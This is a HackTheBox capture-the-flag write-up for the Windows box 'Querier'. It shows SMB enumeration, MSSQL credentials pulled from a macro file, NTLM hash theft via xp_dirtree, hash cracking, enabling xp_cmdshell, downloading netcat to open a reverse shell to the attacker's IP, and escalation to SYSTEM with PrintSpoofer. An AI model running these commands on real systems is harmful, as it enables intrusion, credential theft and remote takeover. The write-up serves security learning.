

# HackTheBox
------------------------------------
### IP: 10.10.10.125
### Name: Querier
### Difficulty: Medium
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.125 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-18 10:09 CDT
Nmap scan report for 10.10.10.125
Host is up (0.068s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2024-06-18T15:11:00+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-06-18T15:07:51
|_Not valid after:  2054-06-18T15:07:51
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-18T15:10:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.35 seconds
```

Using smbclient I can see there is a Reports SMB share, lets try connectiong and using the `get` command to download its contents:


Interestingly, my normal go-to tool for SMB enumeration was unsuccesful at finding the share:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ crackmapexec smb htb.local --shares                        
SMB         htb.local       445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         htb.local       445    QUERIER          [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ crackmapexec smb htb.local -u '' -p '' --shares
SMB         htb.local       445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         htb.local       445    QUERIER          [-] HTB.LOCAL\: STATUS_ACCESS_DENIED 
SMB         htb.local       445    QUERIER          [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ crackmapexec smb htb.local -u 'Guest' -p '' --shares
SMB         htb.local       445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         htb.local       445    QUERIER          [-] Connection Error: The NETBIOS connection with the remote host timed out.
```

I've heard CME is being deprecated and functionality is moving over to netexec. I'd been putting off making the switch, but maybe now its time.

Anyways, opening 'Currency Volume Report.xlsm' we are warned that the file contains macros.


Looking at the contents it appears to be a blank document, but if we go to Tools > Edit Macros, we find something strange:


It appears that when the macro is run a Powershell download cradle attempts to download a file called shell.ps1 and then execute it.

This is bizarre. 

Going back to smbclient I confirm we can't write to the share:

```
smb: \> put test.txt
NT_STATUS_ACCESS_DENIED opening remote file \test.txt
```

Running `strings` against the file we see it contains other data:

```
_rels/.relsPK
;O6-
xl/workbook.xmlPK
xl/_rels/workbook.xml.relsPK
xl/worksheets/sheet1.xmlPK
xl/theme/theme1.xmlPK
xl/styles.xmlPK
xl/vbaProject.binPK
docProps/core.xmlPK
docProps/app.xmlPK
```

Lets create a new directory for the contents and unzip it:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ file 'Currency Volume Report.xlsm'                     
Currency Volume Report.xlsm: Microsoft Excel 2007+
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ mkdir doc                   
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ mv 'Currency Volume Report.xlsm' doc
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ cd doc         
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Querier/doc]
└─$ unzip 'Currency Volume Report.xlsm'
Archive:  Currency Volume Report.xlsm
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: xl/workbook.xml         
  inflating: xl/_rels/workbook.xml.rels  
  inflating: xl/worksheets/sheet1.xml  
  inflating: xl/theme/theme1.xml     
  inflating: xl/styles.xml           
  inflating: xl/vbaProject.bin       
  inflating: docProps/core.xml       
  inflating: docProps/app.xml 
```

Cool, looking through the files we find a binary called vbaProject.bin.

Running `strings` against it we find a password for the MSSQL db:


We can now login to MSSQL with `reporting:PcwTWTHRwryjc$c6`

```
┌──(ryan㉿kali)-[~/HTB/Querier/doc/xl]
└─$ impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Trying to enable ex_cmdshell we find we don't have permissions to:

```
SQL> EXECUTE sp_configure 'show advanced options',1;
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
```

Next thing I always like to try before I begin enumerating the DB is seeing if I can perform NTLM theft using xp_dirtree.

Lets set up a responder listener and execute:

```
EXEC master..xp_dirtree '\\10.10.14.49\testing\'
```

Nice, that worked. We've intercepted a hash for mssql-svc:


Lets copy this hash into a file called mssql-svc_hash and try cracking it with john:



Nice that worked, we now have credentials for the mssql-svc account. `mssql-svc:corporate568`

### Exploitation

Unable to login with psexec or evil-winrm, lets log back into the DB and see if we can now execute system commands with xp_cmdshell:

```
┌──(ryan㉿kali)-[~/HTB/Querier/doc/xl]
└─$ impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> EXECUTE sp_configure 'show advanced options',1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell',1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc   
```

Nice we successfully enabled xp_cmdshell and can now execute commands. 

Lets use this to download a copy of nc64.exe to the target and get a proper reverse shell.

```
start python server:
xp_cmdshell "powershell.exe wget http://10.10.14.49/nc64.exe -OutFile c:\\Users\Public\\nc64.exe"

start nc listener:
xp_cmdshell "c:\\Users\Public\\nc64.exe -e cmd.exe 10.10.14.49 443"
```

This catches us back a shell in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.10.125] 49679
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc

C:\Windows\system32>hostname
hostname
QUERIER
```

We can now grab the user.txt flag:


### Privilege Escalation

Running `whoami /all` we see we have SeImpersonatePrivilege enabled. This is very common for service accounts:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets transfer over PrintSpoofer.exe
```
C:\Users\Public>powershell wget http://10.10.14.49/PrintSpoofer.exe -OutFile c:\\Users\Public\\PrintSpoofer.exe"
```

We can then run it with:

```
C:\Users\Public>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Nice, that worked! Lets grab the final flag:


Thanks for following along!

-Ryan

-----------------------------------------
